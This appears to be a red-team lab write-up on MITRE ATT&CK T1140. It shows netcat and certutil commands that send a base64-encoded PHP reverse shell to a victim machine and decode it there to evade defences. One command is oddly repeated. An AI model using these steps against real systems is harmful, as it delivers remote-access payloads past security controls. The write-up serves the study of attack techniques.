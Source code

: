 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}


